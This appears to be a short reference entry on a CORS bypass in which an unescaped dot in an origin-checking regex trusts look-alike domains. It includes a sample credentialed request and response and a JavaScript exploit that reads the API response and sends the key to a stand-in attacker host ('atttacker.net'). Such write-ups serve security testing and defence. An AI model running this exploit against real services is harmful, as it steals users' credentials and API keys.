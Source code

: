 # Unescaped Dot Bypass

## Description 
The regex used for origin verification contains an unescaped dot (`.`) character.

`wwww.example.com` trusts `wwwaexample.com`, which could be an attacker's domain.

**Severity**: High

## Exploit 
If the target is `sub.example.com`, make requests from `subxexample.com`.

### Example
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://subxexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subxexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `subxexample.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
